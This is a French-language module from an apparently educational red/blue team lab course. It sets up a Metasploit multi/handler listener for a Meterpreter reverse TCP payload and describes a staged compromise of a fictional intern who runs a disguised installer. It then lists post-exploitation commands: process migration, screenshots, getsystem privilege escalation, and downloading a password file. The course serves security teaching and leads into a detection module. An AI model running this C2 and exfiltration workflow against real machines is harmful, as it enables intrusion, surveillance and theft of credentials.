










# Module 3 - Exploitation et Serveur C2

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="Metasploit, Meterpreter"
  data-time="~15 min">
</div>

## Introduction

!!! quote "Analogie pédagogique — Le standard téléphonique"
    L'exécutable que nous avons créé au module précédent est un téléphone qui ne sait composer qu'un seul numéro : le nôtre. Mais si personne ne répond quand il appelle, la connexion échoue. Le "Serveur C2" (Command & Control), c'est le standardiste. Il écoute en permanence sur le port défini, décroche immédiatement quand la cible appelle, et établit la communication sécurisée.

## 3.1 - Configuration du Multi/Handler (L'Écoute)

Côté attaquant (la machine Kali Linux), nous devons lancer la console Metasploit et configurer un module générique d'écoute appelé `exploit/multi/handler`.

```bash title="Lancement de l'écoute C2 (Console Metasploit)"
# Lancement de la console Metasploit
msfconsole -q

# Sélection du module d'écoute
msf6 > use exploit/multi/handler

# Configuration EXACTE pour correspondre au msfvenom précédent
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.56.20
msf6 exploit(multi/handler) > set LPORT 4444

# Options avancées de persistance de session
msf6 exploit(multi/handler) > set ExitOnSession false

# Lancement de l'écoute (-j pour run en background)
msf6 exploit(multi/handler) > exploit -j

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.56.20:4444
```


<p><em>Le handler réceptionne la connexion entrante de la victime et ouvre une session interactive. Le piège s'est refermé.</em></p>

L'option `ExitOnSession false` permet au standardiste (le *handler*) de rester à l'écoute même après avoir réceptionné une première connexion, ce qui est crucial pour gérer de multiples victimes ou reconnecter une victime qui a redémarré. L'attaquant est désormais en attente. Il peut patienter des heures ou des jours.

<br>

---

## 3.2 - Phase 2 : La compromission (Diagramme de Séquence)

Le stagiaire de Globex Corp, double-clique sur le fichier `NeuroSphere-setup.exe` (après avoir obéi et désactivé son antivirus).

**Côté victime :** Le malware n'affiche rien (c'est le principe d'une exécution silencieuse). 
Techniquement, le programme effectue une **Injection DLL Réflective** (*Reflective DLL Injection*). Au lieu de sauvegarder la DLL malveillante sur le disque dur (où l'antivirus pourrait l'analyser), il l'injecte directement dans la mémoire vive (RAM) d'un processus légitime. Le stagiaire pense qu'il s'agit d'un bug ou d'un programme mal codé par un débutant. Déçu, il oublie de réactiver l'antivirus et reprend ses activités normales.
**Côté attaquant :** La console s'anime, l'attaquant prend le contrôle.




<br>

---

## 3.3 - Post-Exploitation : Extraction et Persistance (Phases 3 & 4)

La session `meterpreter` offre des commandes système puissantes. L'attaquant surveille l'activité de l'utilisateur.

### Phase 3 : Extraction de données sensibles

Le stagiaire se connecte à son compte bancaire personnel. L'attaquant, qui guettait, déclenche une capture d'écran.

```bash title="Exemples d'actions post-exploitation (Meterpreter)"
# Interaction avec la session ouverte
msf6 > sessions -i 1

# Étape critique : Migration de processus
meterpreter > ps
# (Repère le PID de explorer.exe, par ex: 1420)
meterpreter > migrate 1420

# Capture de l'écran (récupération du compte bancaire)
meterpreter > screenshot

# Élévation de privilèges si nécessaire (via getsystem)
meterpreter > getsystem

# Exécute des commandes de reconnaissance
meterpreter > sysinfo
meterpreter > netstat

# Recherche de documents et exfiltration
# Recherche de documents et exfiltration
meterpreter > search -f *.txt
meterpreter > download "C:\Users\Stagiaire\Documents\Mots_de_passe_Cloud.txt"
```


<p><em>Enchaînement typique de reconnaissance : sysinfo, getuid, ps. En quelques secondes, l'attaquant cartographie sa cible.</em></p>


<p><em>La commande screenshot exfiltre l'affichage de la cible en temps réel, sans aucune notification visuelle pour cette dernière.</em></p>

La commande `migrate` est fondamentale. Initialement, le shell tourne au sein du processus `NeuroSphere-setup.exe`. Si l'utilisateur ou le système ferme ce programme, la connexion est perdue. En migrant vers `explorer.exe` (le processus gérant l'interface Windows), le malware s'assure que sa connexion restera active tant que l'ordinateur est allumé.


<p><em>Passage sur un shell système classique pour explorer le disque dur de la victime.</em></p>


<p><em>Découverte d'un fichier texte contenant des identifiants stockés en clair. L'erreur d'hygiène numérique fatale.</em></p>


<p><em>La commande download transfère le fichier de manière invisible à travers le tunnel Meterpreter.</em></p>


<p><em>Ouverture de la preuve sur la machine de l'attaquant. Mission d'exfiltration réussie.</em></p>



<br>

### Phase 4 : Élévation de privilèges et Persistance

L'attaquant cherche maintenant à s'ancrer solidement dans le réseau Globex Corp, en particulier vers le réseau de développement. Il renforce sa persistance et scanne les autres postes.



## Conclusion

!!! quote "Ce qu'il faut retenir"
    C'est la fin du rôle de l'attaquant (Red Team). En 5 minutes d'effort technique et un peu d'ingénierie sociale, la forteresse de l'entreprise est tombée.

> L'attaque est un succès. Maintenant, changeons de casquette. Enfilez votre costume d'analyste Blue Team : il y a du trafic réseau suspect en cours. Allons l'intercepter dans le **[Module 4 : Analyse Post-Infection et Détection →](./04-analyse-post-infection.md)**

<br>